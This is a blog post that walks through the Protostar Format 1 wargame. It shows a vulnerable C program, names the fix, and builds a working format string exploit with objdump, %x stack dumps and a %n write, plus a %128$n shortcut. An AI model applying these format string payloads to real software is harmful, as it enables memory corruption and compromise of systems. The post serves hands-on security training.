 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 1"
date: "2012-01-30T18:12:00-05:00"
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Following the Format 0 challenge, I've had to do a bunch of reading on how format string exploits work on a very low level. 

Some resources that I've found greatly useful: 

* [Hacking: The Art of Exploitation, 2nd Edition](http://www.amazon.com/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag=mattandcom-20&linkCode=as2&camp=1789&creative=390957&creativeASIN=1593271441)<img src="http://www.assoc-amazon.com/e/ir?t=mattandcom-20&l=as2&o=1&a=1593271441" width="1" height="1" border="0" alt="" style="border:none !important; margin:0px !important;" />
* [Exploiting Format String Vulnerabilities](http://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
* [SecurityTube.net Format String Vulnerabilities Megaprimer](http://www.securitytube.net/groups?operation=view&groupId=3)

With this challenge, we're given some c code in which we are to find the vulnerability.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
 printf(string);

 if(target) {
  printf("you have modified the target :)\n");
 }
}

int main(int argc, char **argv)
{
 vuln(argv[1]);
}
```

If you notice, there is a string format vulnerability inside the "vuln" function.  It is doing a "printf" of a string directly provided by the user.  To prevent this vulnerability, this line should read: 

```
printf("%s", string);
```

The first step of exploiting this vulnerability, would be to find the address of "target", so that we can modify it. 

```
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep target
08049638 g     O .bss   00000004              target
```

The next step, is to find the direct reference in the stack to the command argument we enter.  To do this, we can simply spam "%x", since that pops the next word off of the stack.  If we do it multiple times, eventually we'll get to where the argument is located.  I chose to do it 150 times, guessing it would be less than that. 

```
user@protostar:/opt/protostar/bin$ ./format1 AAAAAAAA`perl -e 'print "%x."x150'`
AAAAAAAA804960c.bffff628.8048469.b7fd8304.b7fd7ff4.bffff628.8048435.bffff7f0.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6a8.b7eadc76.2.bffff6d4.bffff6e0.b7fe1848.bffff690.ffffffff.b7ffeff4.804824d.1.bffff690.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6a8.8570f76f.af24e17f.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff6d4.8048450.8048440.b7ff1040.bffff6cc.b7fff8f8.2.bffff7e6.bffff7f0.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7cb.1f.bffffff2.f.bffff7db.0.0.0.cf000000.4b112951.96083d4e.8dce3d07.69b25f71.363836.0.2f2e0000.6d726f66.317461.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```

If you look at that output, you'll see each byte in the stack, separated by periods.  Eventually, you should see "41414141", since the 150 number was enough.  This points to the "AAAAAAAA" we entered at the beginning of the argument.  I often find it easy to do 8 "A"s instead of 4, in case the byte is split up, and not aligned properly, giving something like "41411234.5678414141". 

Counting in, it looks like it was 128 bytes into the stack to get to.  Just to verify, let's try a little more precisely: 

```
user@protostar:/opt/protostar/bin$ ./format1 AAAA`perl -e 'print "%x."x128'`%x
AAAA804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.77ba880e.5dee1e1e.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.3b000000.34e9adc8.e1b8c42b.3212319e.690884e6.363836.0.0.2f2e0000.6d726f66.317461.41414141
```

That verifies that no additional padding needs to be done, the last word is reading perfectly. 

Next, instead of passing "AAAA" (or 0x41414141) as the address, we'll try using the address of "target": 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08" . "%x."x128'`%x
8804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.b623f0ae.9c7766be.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.98000000.88091ce4.7be8a4e7.30f01468.69a9fa50.363836.0.0.2f2e0000.6d726f66.317461.8049638
```

Note that the initial 0 is missing, but that's ok.  It seems that worked as well, so let's tell it to overwrite the memory address instead of just printing it to the screen: 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08" . "%x."x128'`%n
8804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff834.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.a61b35ff.8c4fa3ef.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff82a.bffff834.0.bffff9bb.bffff9c6.bffff9d6.bffff9f6.bffffa09.bffffa13.bfffff03.bfffff17.bfffff55.bfffff6c.bfffff7d.bfffff85.bfffff95.bfffffa2.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.febfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.48000000.eacde3e8.ce402cfb.689377d6.699e12c7.363836.0.0.2f2e0000.6d726f66.317461.you have modified the target :)
```

There you have it.  We modified the value, which made the application output "you have modified the target :)" 

As a bonus solution, I found you can also use Direct Parameter Access, and solve it with a lot less junk on the screen: 

```
user@protostar:/opt/protostar/bin$ ./format1 `perl -e 'print "\x38\x96\x04\x08"'`%128\$n
8you have modified the target :)
```
